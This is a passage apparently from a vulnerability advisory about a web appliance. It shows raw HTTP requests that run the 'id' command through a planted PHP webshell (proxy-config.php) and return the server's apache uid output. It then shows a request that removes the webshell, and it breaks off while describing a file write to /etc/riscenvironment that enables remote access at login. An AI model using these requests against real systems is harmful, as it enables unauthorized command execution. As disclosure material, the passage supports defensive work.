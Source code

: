 Execute Code:

```
GET /proxy-config.php?atredis=id HTTP/1.1
Host: 192.168.0.77
Connection: close
Content-Length: 2
```

Response:

```
HTTP/1.1 200 OK
Date: Wed, 10 Jul 2019 11:49:27 GMT
Server: Apache
Content-Length: 96
Connection: close
Content-Type: text/html; charset=UTF-8

uid=48(apache) gid=48(apache) groups=48(apache)
uid=48(apache) gid=48(apache) groups=48(apache)
```

The webshell can be removed by calling `proxy_setup.php` with the `operation` value set to `disable`.

Remove `proxy-config.php` file:

```
POST /proxy_setup.php HTTP/1.1
Host: 192.168.0.77
Content-Type: application/x-www-form-urlencoded
Content-Length: 19

operation=disable
```

Response:

```
HTTP/1.1 200 OK
Date: Wed, 10 Jul 2019 11:53:09 GMT
Server: Apache
Set-Cookie: PHPSESSID=v9crifccdg6vl0u306gv1okcd0; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Content-Length: 40
Connection: close
Content-Type: text/html; charset=UTF-8

Successfully removed proxy configuration
```

The file write to `/etc/riscenvironment` can also be used to gain remote access when a user logs into the appliance because the `/etc/profile` file contains the following:
